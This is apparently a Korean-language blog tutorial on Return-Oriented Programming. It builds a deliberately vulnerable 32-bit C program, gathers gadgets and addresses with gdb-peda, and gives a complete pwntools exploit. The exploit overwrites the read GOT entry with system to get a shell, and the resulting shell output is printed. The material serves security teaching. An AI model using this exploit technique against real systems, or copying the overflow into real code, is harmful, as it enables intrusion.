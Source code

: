 ## **Concept**

NXbit와 Code signing과 같은 보안 기능이 있는 상태에서 코드 실행 가능하게 해주는 기술이다.  
RTL + Gadgets(해당 프로그램이 사용하는 메모리에 있는 기계어)  
Gadgets은 일반적으로 ret로 끝나며, 기존 프로그램 또는 공유 라이브러리 코드 내 서브 루틴에 존재.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c
#include <stdio.h>
#include <unistd.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

256자를 Read하므로 Buffer Overflow가 발생한다.

## **Exploit Mehtod**
1. read 함수를 통해 "/bin/sh" 명령을 쓰기 가능한 메모리에 저장
1. write 함수를 이용해 read 함수의 .got 영역에 저장된 값 출력
1. read 함수를 이용해 read 함수의 .got 영역에 system 함수 주소를 덮어씀
1. read 함수 호출 - read .got 영역에 system 주소 저장되어 있기 떄문에 system 함수가 호출

```c
read(0,writableArea,len(str(binsh)))
write(1,read_got,len(str(read_got)))
read(0,read_got,len(str(read_got)))
system(writableArea)
```

**Writable Area**

```
gdb-peda$ shell cat /proc/26912/maps
08048000-08049000 r-xp 00000000 08:01 131514     /home/pwner/test/rop
08049000-0804a000 r--p 00000000 08:01 131514     /home/pwner/test/rop
0804a000-0804b000 rw-p 00001000 08:01 131514     /home/pwner/test/rop  <--- 변하지 않는 writable 영역
b7d43000-b7d44000 rw-p 00000000 00:00 0 
b7d44000-b7ef4000 r-xp 00000000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef4000-b7ef6000 r--p 001af000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef6000-b7ef7000 rw-p 001b1000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef7000-b7efa000 rw-p 00000000 00:00 0 
b7f10000-b7f11000 rw-p 00000000 00:00 0 
b7f11000-b7f14000 r--p 00000000 00:00 0          [vvar]
b7f14000-b7f16000 r-xp 00000000 00:00 0          [vdso]
b7f16000-b7f39000 r-xp 00000000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f39000-b7f3a000 r--p 00022000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f3a000-b7f3b000 rw-p 00023000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
bfae5000-bfb06000 rw-p 00000000 00:00 0          [stack]
```

**Sections**

```
gdb-peda$ shell objdump -h rop

rop:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .interp       00000013  08048154  08048154  00000154  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
                          >> snip... <<
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000004  08049ffc  08049ffc  00000ffc  2**2  
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000018  0804a000  0804a000  00001000  2**2 <-- .got.plt
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000008  0804a018  0804a018  00001018  2**2 <-- .data
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000004  0804a020  0804a020  00001020  2**0 <-- .bss
                  ALLOC
 26 .comment      00000035  00000000  00000000  00001020  2**0
                  CONTENTS, READONLY
```

**Gadgets**

```
gdb-peda$ ropgadget
ret = 0x80482d2
popret = 0x80482e9
pop2ret = 0x80484ea
pop3ret = 0x80484e9
pop4ret = 0x80484e8
addesp_12 = 0x80482e6
addesp_16 = 0x80483a5
```

**Symbols**

```
gdb-peda$ elfsymbol read
Detail symbol info
read@reloc = 0
read@plt = 0x8048300
read@got = 0x804a00c

gdb-peda$ elfsymbol write
Detail symbol info
write@reloc = 0x10
write@plt = 0x8048320
write@got = 0x804a014
```

**offset**

```
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xb7e90b00 <read>

gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7df5da0 <__libc_system>

gdb-peda$ p 0xb7e90b00-0xb7df5da0
$4 = 0x9ad60
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
from struct import *

binsh = "/bin/sh"
binary = ELF("./rop")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
writableArea = 0x0804a050
read_got = binary.got['read']
read_plt = binary.plt['read']
read_system_offset = libc.symbols['read'] - libc.symbols['system']

rop = ROP(binary)

rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaaaaaa)
rop.raw(writableArea)

payload = "A"*62 + str(rop)

p = process('./rop')
context.log_level = 'debug'

print(p.recvn(10))
p.send(payload+'n')
p.send(binsh)
read = u32(p.recvn(4))
system_addr = read - read_system_offset

rop = ROP(binary)
rop.raw(system_addr)
p.send(str(rop))

p.interactive()
```

## **Exploit**
```shell
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)n'
uid=0(root) gid=0(root) groups=0(root)
$ pwd
[DEBUG] Sent 0x4 bytes:
    'pwdn'
[DEBUG] Received 0x11 bytes:
    '/home/pwner/testn'
/home/pwner/test
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86](https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86)

